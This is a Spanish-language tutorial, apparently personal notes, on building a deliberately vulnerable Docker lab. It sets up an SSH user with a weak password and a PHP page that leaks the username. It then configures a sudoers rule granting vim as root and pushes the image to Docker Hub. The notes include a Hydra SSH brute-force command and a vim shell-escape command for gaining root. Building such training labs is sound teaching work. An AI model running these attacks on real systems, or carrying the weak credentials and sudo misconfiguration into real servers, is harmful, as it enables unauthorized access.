 Este primer contenedor va a tener el protocolo SSH habilitado, donde dentro habrá un servidor de Apache habilitado que indicará un usuario al cual hacer fuerza bruta. Una vez dentro del contenedor, podremos escalar privilegios usando el comando sudo -l del binario vim.

Para configurar el entorno, podemos utilizar o bien la construcción de una imagen a partir de un archivo Dockerfile / Docker-compose o bien entrando dentro del contenedor y de forma manual realizar toda la configuración.

-----

Entramos dentro del contenedor y hacemos toda la configuración:
```bash
apt install openssh-server
apt install nano
adduser mario
```
Al añadir este usuario, le ponemos la contraseña chocolate:
```bash
mario:chocolate
```
![[Pasted image 20240320103804.png]]
Ahora que ya tenemos el protocolo SSH habilitado, vamos a configurar apache:
```bash
apt install apache2
```
Y ahora tenemos el directorio /var/www/html creado:
![[Pasted image 20240320104112.png]]
Vamos a crear un archivo llamado secret.php donde se le de al usuario la pista de la existencia del usuario mario para hacerle fuerza bruta por SSH:
```bash
apt install php
```
![[Pasted image 20240320104318.png]]
El archivo de php tendrá el siguiente contenido:
```php
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>¡Secreto!</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            background-color: #f0f0f0;
            margin: 0;
            padding: 0;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
        }
        .container {
            text-align: center;
            background-color: #fff;
            padding: 20px;
            border-radius: 10px;
            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
        }
        h1 {
            color: #333;
        }
        p {
            color: #666;
        }
    </style>
</head>
<body>
    <div class="container">
        <h1>Hola Mario,</h1>
        <p>Esta web no se puede hackear.</p>
    </div>
</body>
</html>
```
Y así es como se ve desde el navegador:
![[Pasted image 20240320104415.png]]
Ahora ya tendremos abiertos tanto el puerto 80 como 22 del contenedor:
![[Pasted image 20240320105636.png]]
Ahora si usamos Hydra, podremos entrar por fuerza bruta:
```bash
hydra -l mario -P rockyou.txt ssh://172.17.0.1
```
![[Pasted image 20240320105803.png]]
Ahora vamos a configurar la escalada de privilegios, donde primero debemos de instalar el binario de vim y después modificar el archivo visudo permitiendo ejecutar como root este binario:
```bash
apt install vim
apt install sudo
```
Y ahora ya podremos abrir el archivo sudoers ejecutando el comando sudo visudo, donde al final del todo añadiremos la siguiente línea:
```bash
mario ALL=(ALL) /usr/bin/vim
```
![[Pasted image 20240320110106.png]]
De esta forma, si ahora hacemos un su mario y ejecutamos el comando sudo -l, vemos que como root este usuario puede ejecutar el siguiente binario:
![[Pasted image 20240320110144.png]]
Donde deberá de insertar el siguiente comando para escalar privilegios:
```bash
sudo -u root /usr/bin/vim -c ':!/bin/sh'
```
![[Pasted image 20240320110252.png]]
Esta máquina ya está lista, por lo que vamos a convertirla en una imagen y subirla a dockerhub:
```bash
docker commit 4ae4083f941a laboratorio1
```
Ya la tenemos en imagen:
![[Pasted image 20240320110447.png]]
Ahora la subimos a dockerhub:
```bash
docker login
```
Iniciamos sesión:
![[Pasted image 20240320110540.png]]
Y etiquetamos nuestra imagen:
```bash
docker tag laboratorio1:latest maalfer/laboratorio1:latest
docker push maalfer/laboratorio1:latest
```
Y ya se sube nuestra imagen:
![[Pasted image 20240320110957.png]]
Lo comprobamos desde dockerhub:
![[Pasted image 20240320111015.png]]
